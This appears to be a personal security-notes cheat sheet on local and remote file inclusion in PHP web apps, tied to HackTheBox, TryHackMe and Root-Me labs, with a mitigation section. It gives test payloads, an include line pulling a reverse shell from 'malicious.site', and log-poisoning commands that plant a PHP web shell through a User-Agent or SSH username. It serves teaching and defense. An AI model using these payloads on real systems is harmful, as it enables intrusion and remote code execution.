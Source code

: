 # File inclusion

[![fileinclusion](../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)
[![filepathtraversal](../../../../_badges/thm/filepathtraversal.svg)](https://tryhackme.com/r/room/filepathtraversal)

<div class="row row-cols-lg-2"><div>

A web application might import/include files based on data from the user. This involves using the user input to:

* 🐚 determine configuration files to include
* 🌍 determine language files to include
* ...

If the user input isn't properly sanitized, the user may be able to control which files are included, which may allow them:

* 🗺️ To read local or remote files
* 📚 To leverage a [SSRF](ssrf.md) attack <small>(port mapping, steal files, etc.)</small>
* 🐲 To execute code <small>(either uploaded code, remote code, or using logs)</small>

Code/data exposure may further compromise the infrastructure.
</div><div>

There are two categories of file inclusion:

* **Local File Inclusion (LFI)** 🏠: include a local file
* **Remote File Inclusion (RFI)** ✈️: include a remote file

<br>

Additional notes:

* 🤖 Not all include functions can execute code
* 📌 Template engines are more likely to contain LFI/RFI.
* 🐲 While LFI/RFI often involve HTTP, we can also use `ftp://`
* 🔑 Try `\\YOURIP\share\` RFI on Windows to [harvest credentials](/cybersecurity/red-team/_knowledge/topics/request_grabber.md)
* 😎 For RFI, try a local URLs first <small>(ex: `http://127.0.0.1:80/index.php`)</small>, as remote URLs may be blocked by a firewall
</div></div>

<hr class="sep-both">

## Basic Methodology

[![fileinclusion](../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![modern_web_exploitation_techniques](../../../../_badges/htb/modern_web_exploitation_techniques.svg)](https://academy.hackthebox.com/course/preview/modern-web-exploitation-techniques)
[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)

<div class="row row-cols-lg-2"><div>

Assuming you found some vectors that might lead to a LFI/RFI:

* 📚 Headers
* 📄 Forms
* 🍪 Cookies
* 🏠 Stored data such as usernames <small>(if they are used in paths)</small>
* ...

You might try to play around with the value to see if it works.

For a list of interesting files to read, aside from the website source code and configuration files, refer to [arbitrary file read](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/arbitrary_file_access.md).
</div><div>

Assuming we have `page=about`.

* Test Path: `./about`
* Test Null-Byte: `./about.php%00`
* Test [Path Traversal](path_traversal.md): `../<folder name>/about`
* Test engine-specific payloads, such as `php://filter`
* Test Remote File Inclusion
* ...

⚠️ Refer the source code in priority to understand filtering <small>(if any)</small>.
</div></div>

<hr class="sep-both">

## PHP File Inclusion

[![fileinclusion](../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)
[![filepathtraversal](../../../../_badges/thm/filepathtraversal.svg)](https://tryhackme.com/r/room/filepathtraversal)
[![archangel](../../../../_badges/thm-p/archangel.svg)](https://tryhackme.com/r/room/archangel)
[![teamcw](../../../../_badges/thm-p/teamcw.svg)](https://tryhackme.com/r/room/teamcw)
[![directory_traversal](../../../../_badges/rootme/web_server/directory_traversal.svg)](https://www.root-me.org/en/Challenges/Web-Server/Directory-traversal)
[![local_file_inclusion](../../../../_badges/rootme/web_server/local_file_inclusion.svg)](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion)
[![php_filters](../../../../_badges/rootme/web_server/php_filters.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Filters)
[![php_assert](../../../../_badges/rootme/web_server/php_assert.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-assert)
[![remote_file_inclusion](../../../../_badges/rootme/web_server/remote_file_inclusion.svg)](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)
[![xslt_code_execution](../../../../_badges/rootme/web_server/xslt_code_execution.svg)](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)
[![local_file_inclusion_wrappers](../../../../_badges/rootme/web_server/local_file_inclusion_wrappers.svg)](https://www.root-me.org/fr/Challenges/Web-Serveur/Local-File-Inclusion-Wrappers)
[![pyrat_auction](../../../../_badges/rootme/realist/pyrat_auction.svg)](https://www.root-me.org/en/Challenges/Realist/PyRat-Auction-83)
[![local_file_inclusion_double_encoding](../../../../_badges/rootme/web_server/local_file_inclusion_double_encoding.svg)](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion-Double-encoding)
[![samcms](../../../../_badges/rootme/realist/samcms.svg)](https://www.root-me.org/en/Challenges/Realist/SamCMS)
[![marabout](../../../../_badges/rootme/realist/marabout.svg)](https://www.root-me.org/en/Challenges/Realist/Marabout)

<div class="row row-cols-lg-2"><div>

The URL `http://example.com/?lang=fr` associated with the code below is an example of a vulnerable PHP code.

```php!
include "lang/$_GET[lang].php" // It loads lang/fr.php
```

**Local File Inclusion (LFI)** 🏠: inject a local file

```php!
// ex: we uploaded a reverse shell (a fake PNG)
// as our avatar (avatar.png), then we could use:
include "lang/../uploads/avatar.png";
include "phar://<refer to php wrappers>";
```

**Remote File Inclusion (RFI)** ✈️: inject a remote file

```php!
// 🛑 allow_url_fopen MUST BE SET TO true
include "http://malicious.site/reverse_shell.php";
include "data://<refer to php wrappers>";
```
</div><div>

💥 PHP `include`/`require` function executes PHP code.

⚔️ We can use [Path traversal](path_traversal.md) or [PHP Wrappers](files/wrappers.md) to include a malicious file, such as one we uploaded using another attack or execute code.

If the session contains a value that we control, we can inject PHP code in this value, then we can read the session file.

* `/var/lib/php/sessions/sess_<session id>`
* `C:\Windows\Temp\sess_<session id>`
</div></div>

<hr class="sep-both">

## Log Poisoning

[![fileinclusion](../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![filepathtraversal](../../../../_badges/thm/filepathtraversal.svg)](https://tryhackme.com/r/room/filepathtraversal)
[![archangel](../../../../_badges/thm-p/archangel.svg)](https://tryhackme.com/r/room/archangel)

<div class="row row-cols-lg-2"><div>

If the vulnerable function can execute code, we may not have to upload a webshell, we can inject PHP code in the logs and read the logs to execute the injected code.

Note that logs must be readable by the web application. Nginx logs are readable by anyone, but not Apache logs.

```ps
# Ex: load /var/log/apache2/access.log / ...
$ curl [...] -A "<?php system(\$_GET['cmd']); ?>"
```

👉 `/proc/self/environ` or `/proc/self/fd/<0-50>` will contains the User-Agent too, but they may not be readable either.
</div><div>

We can alternatively poison ssh logs <small>(username)</small>, ftp logs, etc.

```ps
$ ssh '<?php /*code*/ ?>'@IP # Ex: /var/log/auth.log
```

Common logs and their location can be [found here](/cybersecurity/blue-team/topics/logs.md#common-log-files-locations).
</div></div>

<hr class="sep-both">

## File Inclusion Filter By-Pass

Refer to [Path Traversal Bypass filters](path_traversal.md#path-traversal-bypass-filters).

<hr class="sep-both">

## File Inclusion Mitigation 🛡️

[![fileinclusion](../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)
[![filepathtraversal](../../../../_badges/thm/filepathtraversal.svg)](https://tryhackme.com/r/room/filepathtraversal)

<div class="row row-cols-lg-2"><div>

* 🪲 Do not use user-controlled input to include a file, whether the input is from the database or from a form.

* 🫧 Use whitelists <small>(switch-case value to file, maps, etc.)</small>, and avoid directly using user-controlled input

* 🕸️ If paths are allowed, refer to path traversal mitigation

* 🔫 Use additional verifications such as using `realpath` in path to ensure the files are within the allowed directories
</div><div>

* 🔒 Use docker or a similar technology to isolate the application OR lock web applications to their web root directory. In PHP, we can set the `open_basedir` variable in the PHP INI file. Beware that configuration files will still be accessible.

* 🛡️ In PHP, disable unused dangerous settings such as `allow_url_fopen` or `allow_url_include`.

* 📚 Use additional tools such as a WAF, etc.

Refer to [PHP Security And Bypasses](/programming-languages/web/php/_general/index.md#php-security-and-bypasses-).
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Second Order Attack (poisoned database entry)
* [LFISuite](https://github.com/D35m0nd142/LFISuite) <small>(1.6k ⭐, 2018 🪦)</small>
* [LFiFreak](https://github.com/OsandaMalith/LFiFreak) <small>(0.2k ⭐, 2015 🪦)</small>
* [liffy](https://github.com/mzfr/liffy) <small>(0.7k ⭐)</small>
</div><div>
</div></div>